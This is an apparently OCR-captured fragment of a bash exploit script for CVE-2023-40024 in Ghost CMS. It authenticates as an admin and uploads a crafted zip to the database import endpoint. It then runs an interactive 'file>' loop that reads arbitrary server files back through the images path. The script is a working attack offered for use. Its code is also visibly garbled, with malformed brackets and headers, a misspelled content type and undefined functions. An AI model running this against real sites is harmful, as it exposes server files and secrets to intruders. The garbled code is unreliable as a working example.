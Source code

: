 ```bash
	#Creating a new session
	$GHOST_API/session/ &> /dev/null

#Quiet check if cookie exists
if ! cat cookie.txt | grep -q ghost-admin-api-session; then
	echo "[!] INVALID CREDENTIALS"
	rm cookie.txt
	exit
fi

function send_exploit() {
	RES=$(curl -s -b cookie.txt\
		-H "Accept: text/plain, */*; q=0.01" \
		-H "Accept-Language: en-US,en;q=0.5" \
		-H "Accept-Encoding:"gzip, deflate, br" \
		-H "X-Ghost-Version: 5.58" \
		-H "App-Pragma: no-cache" \
		#Making a request from JS object
		-H "X-Requested-With: XMLHttpRequest" \
		-H "Content-Type: multipart/from-data" \
		-X POST\
		-H "Origin: $GHOST_URL" \
		-H "Referer: $GHOST_URL/ghost/" \
		-F "importfile=@`dirname $PAYLOAD_PATH`/PAYLOAD_ZIP_NAME;type=application/zip" \
		-H "form-data; name=\"importfile\"; filename=\"$PAYLOAD_ZIP_NAME\"" \
		-H "Content-Type: application/zip" \
		"$GHOST_URL/ghost/api/v3/admin/db")
	#Last command not equals to 0
	if [ $? -ne 0]; then
		echo "[!] FAILED TO SEND THE EXPLOIT"
		clean
		exit
	fi
}
	
	
echo "Welcome to the CVE-2023-40024 SHELL"
#Creating a custom shell
while true; do
	#Display readline to pass an input
	read -p "file> " INPUT
	#Exit the shell
	#[[]] supports ==
	if [[ $INPUT == "exit"]];then
		echo "Bye Bye!!"
		break
	fi
	#Checking if input matches with a RE in this case a blank space
	if [[ $INPUT =~ \  ]]; then
		echo "PLEASE ENTER FULL FILE PATH WITHOUT SPACE"
		continue
	fi
	#Valid input is not empty
	if [ -z $INPUT ];then
		echo "VALUE REQUIRED"
		continue
	fi
	#Generate payload with the input
	generate_exploit $INPUT
	#Sending the malicious .zip file
	send_exploit 
	#Read the file uploaded
	curl -b cookie.txt -s $GHOST_URL/content/images/2024/$IMAGE_NAME.png
```